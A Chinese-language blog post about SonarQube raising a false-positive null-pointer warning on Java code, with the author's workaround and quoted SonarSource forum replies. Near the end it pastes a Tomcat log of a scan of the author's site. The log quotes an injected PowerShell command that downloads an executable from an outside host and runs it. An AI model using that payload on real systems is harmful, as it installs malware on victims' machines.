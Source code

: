 +++
title = "Sonar扫描的NPE问题"
description = "Commons-lang StringUtils isNotBlank method still raise NPE"
tags = [
]
date = "2020-03-12"
topics = [
    "US"
]
+++

![](https://aws1.discourse-cdn.com/sonarsource/uploads/sscommunity/original/2X/3/318735b08e742b4bab065a9821caa48762a4c697.png)

直到我修改为这样的代码才通过——

```

public class DetectorImport {
    public String check1(Nonentity nonentity) {
        String s;
        if(nonentity == null) {
            s = null;
        }else {
            s = nonentity.getName();
        }
        if(s !=null) {
            s = s.replaceAll("（", "(");
        }
        return s;
    }
}

```

查到的几个相关问题——
[https://community.sonarsource.com/tags/c/bug/fp/7/java](https://community.sonarsource.com/tags/c/bug/fp/7/java)



[Sonarqube is raising false-positive NPE](https://community.sonarsource.com/t/sonarqube-is-raising-false-positive-npe/4515)

2019-07-19  

>I expect that nonNull implementation is in the another file than the main code. Unfortunately that’s the current limitation we have for this rule. If you move nonNull in the file, FP should disappear.
This problem can’t be fixed easily, so for now I suggest you to mark issue as FP in SonarQube UI.
Anyway thanks for reporting it.


[squid:S2259 : A “NullPointerException” could be thrown; “dc” is nullable here. While “dc” is checked as not null](https://community.sonarsource.com/t/squid-s2259-a-nullpointerexception-could-be-thrown-dc-is-nullable-here-while-dc-is-checked-as-not-null/2616)

[[JAVA] squid:S2259 False Positive with Utility methods](https://groups.google.com/forum/#!topic/sonarqube/aluTP63hfyA)
这里提到是支持apache commen的StringUtils包的。

> We currently support methods from commons-lang StringUtils ([v2](https://commons.apache.org/proper/commons-lang/javadocs/api-2.6/org/apache/commons/lang/StringUtils.html), and [v3](https://www.google.com/url?q=https%3A%2F%2Fcommons.apache.org%2Fproper%2Fcommons-lang%2Fapidocs%2Forg%2Fapache%2Fcommons%2Flang3%2FStringUtils.html&sa=D&sntz=1&usg=AFQjCNHiDHLeUkFJvzevRg_dwUkvTbt8nA)), guava [preconditions](https://google.github.io/guava/releases/snapshot/api/docs/com/google/common/base/Preconditions.html#checkNotNull-T-), and java 8 methods from java.util.Objects (nonNull, isNull, requireNonNull). As we know how these methods behave, we are able to correctly handle such call and discard similar FPs. Of course, I don't want to force you using such libraries to make the analyzer happy. :)

report this on Sonar Community: [Commons-lang StringUtils isNotBlank method still raise NPE](https://community.sonarsource.com/t/commons-lang-stringutils-isnotblank-method-still-raise-npe/21517)



没想到我这小破站也被扫描了——
```
2020-03-09 13:48:49.794  INFO 2173 --- [p-nio-80-exec-3] org.apache.tomcat.util.http.Parameters   : Character decoding failed. Parameter [mail[#markup]] with value [ powershell (new-object System.Net.WebClient).DownloadFile('http://ero.bckl.ir/download.exe','%SystemRoot%/Temp/zjajlhxadgirori21058.exe');start %SystemRoot%/Temp/zjajlhxadgirori21058.exe] has been ignored. Note that the name and value quoted here may be corrupted due to the failed decoding. Use debug level logging to see the original, non-corrupted values.
 Note: further occurrences of Parameter errors will be logged at DEBUG level.
2020-03-10 03:44:19.910  INFO 2173 --- [p-nio-80-exec-7] o.apache.coyote.http11.Http11Processor   : Error parsing HTTP request header
 Note: further occurrences of HTTP request parsing errors will be logged at DEBUG level.

java.lang.IllegalArgumentException: Invalid character found in the HTTP protocol
	at org.apache.coyote.http11.Http11InputBuffer.parseRequestLine(Http11InputBuffer.java:532) ~[tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:294) ~[tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:853) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1587) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149) [na:1.8.0_232]
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624) [na:1.8.0_232]
	at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at java.lang.Thread.run(Thread.java:748) [na:1.8.0_232]

```

